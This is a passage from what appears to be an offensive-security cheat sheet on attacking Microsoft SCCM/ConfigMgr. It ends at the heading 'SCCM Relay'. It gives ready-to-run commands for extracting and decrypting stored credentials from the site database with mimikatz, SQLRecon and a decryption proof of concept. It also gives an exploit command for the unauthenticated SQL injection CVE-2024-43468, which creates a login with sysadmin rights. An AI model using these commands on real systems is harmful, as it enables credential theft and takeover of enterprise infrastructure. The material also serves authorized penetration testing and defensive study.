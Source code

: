 * Check ACL for the CIM repository located at `C:\Windows\System32\wbem\Repository\OBJECTS.DATA`:

    ```ps1
    Get-Acl C:\Windows\System32\wbem\Repository\OBJECTS.DATA | Format-List -Property PSPath,sddl
    ConvertFrom-SddlString ""
    ```

### CRED-5 Extract the SC_UserAccount table from the site database

* [Misconfiguration-Manager - CRED-5](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/CRED/CRED-5/cred-5_description.md)

**Requirements**:

* Site database access
* Primary site server access
    * Access to the private key used for encryption

**Exploitation**:

* [gentilkiwi/mimikatz](https://twitter.com/gentilkiwi/status/1392204021461569537)

    ```ps1
    mimikatz # misc::sccm /connectionstring:"DRIVER={SQL Server};Trusted=true;DATABASE=ConfigMgr_CHQ;SERVER=CM1;"
    ```

* [skahwah/SQLRecon](https://github.com/skahwah/SQLRecon), only if the site server and database are hosted on the same system

    ```ps1
    SQLRecon.exe /auth:WinToken /host:CM1 /database:ConfigMgr_CHQ /module:sDecryptCredentials
    ```

* SQLRecon + [xpn/sccmdecryptpoc.cs](https://gist.github.com/xpn/5f497d2725a041922c427c3aaa3b37d1)

    ```ps1
    SQLRecon.exe /auth:WinToken /host:<SITE-DB> /database:CM_<SITECODE> /module:query /command:"SELECT * FROM SC_UserAccount"
    sccmdecryptpoc.exe 0C010000080[...]5D6F0
    ```

### Unauthenticated SQL Injection - CVE-2024-43468

* [synacktiv/CVE-2024-43468](https://github.com/synacktiv/CVE-2024-43468) - Microsoft Configuration Manager (ConfigMgr / SCCM) 2403 Unauthenticated SQL injections (CVE-2024-43468) exploit

```ps1
$ CVE-2024-43468.py -t cmc.corp.local -sql "create login [CORP\user1] from windows ; exec master.dbo.sp_addsrvrolemember [CORP\user1], 'sysadmin'"
$ mssqlclient.py -debug -windows-auth 'CORP/user1:xxx'@cmc-db.corp.local
SQL> select name from sysdatabases where name like 'CM_%'
```

## SCCM Relay
